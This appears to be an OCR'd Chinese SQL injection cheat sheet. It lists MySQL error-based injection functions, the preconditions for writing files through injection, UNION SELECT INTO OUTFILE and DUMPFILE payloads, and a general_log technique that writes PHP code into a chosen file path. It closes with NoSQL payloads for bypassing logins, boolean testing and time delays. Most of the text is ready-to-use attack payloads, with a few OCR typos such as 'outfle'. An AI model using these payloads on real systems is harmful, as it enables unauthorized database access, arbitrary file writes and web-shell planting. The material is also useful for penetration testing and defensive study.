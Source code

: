 **报错注入常见函数**

```
• extractvalue
• updatexml
• GeometryCollection
• linestring
• multilinestring
• multipoint
• multipolygon
• polygon
• exp
```

**写文件**

1.写文件前提

• root 权限
• 知晓文件绝对路径
• 写入的路径存在写入权限
• secure_fle_priv 允许向对应位置写入
• select count(file_priv) from mysql.user  

2.基于info写文件

```
union select 1,1,1 into outfile '/tmp/demo.txt'
union select 1,1,1 into dumpfile '/tmp/demo.txt'
```

dumpfle 和 outfle 不同在于， outfle 会在行末端写入新行，会转义换行符，如果写入二进制文件，很可能被这种特性破坏  

3.基于log写文件

```
show variables like '%general%';
set global general_log = on;
set global general_log_file = '/path/to/file';
select '<?php var_dump("test");?>';
set global general_log_file = '/original/path';
set global general_log = off;
```

**PostgresSQL Payload  和Oracle Payload SQLite3暂略**

**NoSQL常见Payload**

```
• 绕过限制条件
	– {"username": "user"} => {"username": {"ne": "fakeuser"}}
	– {"$where": "return true"}
• 测试用字符
	– '"\/$[].>
• 布尔测试常用
	– {"$ne": -1}
	– {"$in": []}
	– {"$where": "return true"}
	– {"$or": [{},{"foo":"1"}]}
• 时间
	– {"$where": "sleep(100)"}		
```
